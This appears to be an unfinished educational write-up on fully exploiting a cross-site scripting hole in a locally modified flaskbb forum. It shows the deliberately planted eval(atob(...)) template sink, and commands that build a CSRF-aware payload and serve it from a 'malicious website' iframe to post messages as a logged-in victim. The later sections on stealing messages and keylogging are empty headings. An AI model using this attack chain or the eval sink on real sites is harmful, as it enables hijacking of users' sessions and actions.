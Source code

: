 Attacks
=======
Given a vulnerable application, we will try to devellop some realistic attack scenarios. The focus is really not on triggering the XSS, but rather demonstrating ways to fully exploit it.
First we will setup a vulnerable application, then propose 3 different attacks :

    - execute actions on behalf of user
    - steal private information
    - Man In the Browser attack : interactive session hijacking, keylogger, browser exploits...
        
I. Setup the vulnerable application : a forum.
----------------------------------------------
In an attempt to be as realistic as possible, we decided to start with a real full-fledged application. We choose flaskbb[0], a forum developped in python using flask.

First step is to add our extra XSS "feature". We kept it simple by adding a new route to the project, where you can provide base64-encoded javascript to be executed. For example, executing "alert(1)" will look like this :

    localhost:8080/xss/YWxlcnQoMSkK

The base64 is a handy way to avoid conflicts between our payloads and flask's route matching rules, and more important allows us to bypass flask's parameters sanitizing before template generation. It will also work around any protection from the browser. Implementation steps are provided here[1]

Bonus : flaskbb is kind enough to come in the dev version with a test function to populate it with dummy users, topics and posts.

II. Post a message on behalf of a user.
---------------------------------------
First, let's introduce two tools that we will use : 

    burp[2] : an http proxy, often used in web penetration tests because it is awesome. We will just scratch the surface here, using it to log our http traffic.
    xssless[3] : a python script to generate XSS payloads from burp's logs. Best part is that it takes care of crsf tokens (nonces) !

The procedure is as follow : 

    1) log in with a user we control.
    2) start burp's interception
    3) post a new message.
    4) export burp's logs
    5) list the csrf tokens
    6) run xssless
    7) modify the payload with our malicious message
    8) craft our exploit
    9) expose targeted users to our exploit

Steps 1-4 I won't describe.

Step 5 : In the requests that burp intercepted, we look for any parameter that might be a csrf token. It's usually obvious, and it certainly is here.

    echo 'csrf_token' > params

Step 6 : Xssless is nice because we don't even have to have a deep look into what's going on. We could probably skip some requests, but we know that repoducing step by step what we recorded will work. We just need to tell it which parameters to adapt dynamically.

    python2 ~/secu/xssless/xssless.py -s -p params ../burp-logs/post-topic.burp > post-topic.js

Step 7 : Now you can edit the payload to replace the title or content of the post you want. 

    grep content post-topic.js
        [...] &title=I+think&content=I%27ve+been+hacked+%3A%28 [...]

Just don't forget to url-encode your texts.

Step 8 : At this point we should run our payload through a js minifyer. Here we won't, for the sake of simplicity. To have a working exploit we need however the base64 of our payload, and to remove the script tag :
    
    grep -v script post-topic.js | base64 -w0 > post-topic.b64

Step 9 : Now, all we have to do is put it somewhere on internet and bring authenticated users of our forum to visit it.

    echo "<iframe src='localhost:8080/xss/$(cat xssless-payloads/post-topic.b64)'></iframe>" > malicious-website/post-topic.html
    cd malicious-website && python3 -m http.server 1337

Step 10 : profit !  [[Images ?]]

III. Read a user's private conversations.
-----------------------------------------

IV. Steal a user's password, and beyond ! Man In the Browser.
-------------------------------------------------------------

V. Going further.
-----------------
    xssless : worms !

Refs
----
    [0] https://github.com/sh4nks/flaskbb
    [1] The following modifications have been made to flaskbb[0] :
            forum/views.py (l35-66)
                @forum.route("/xss/<payload>")
                [...]
                return( [...],
                    payload=payload)

            templates/forum/index.html (l4)
                <script>eval(atob("{{ payload }}"))</script>
    [2] http://portswigger.net/burp/
    [3] https://github.com/mandatoryprogrammer/xssless
